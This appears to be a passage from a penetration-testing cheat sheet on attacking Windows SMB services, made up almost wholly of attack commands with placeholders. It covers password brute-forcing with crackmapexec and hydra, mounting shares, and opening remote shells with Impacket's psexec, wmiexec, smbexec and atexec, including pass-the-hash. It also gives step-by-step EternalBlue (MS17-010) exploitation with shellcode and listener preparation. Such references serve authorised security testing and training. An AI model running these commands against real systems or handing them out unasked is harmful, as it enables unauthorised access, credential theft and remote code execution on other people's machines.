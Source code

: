 ```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

### Mount a SMB share

```
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

### Get a shell

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### EternalBlue (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### Check if vulnerable

```
python eternal_checker.py <IP>
```

#### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```
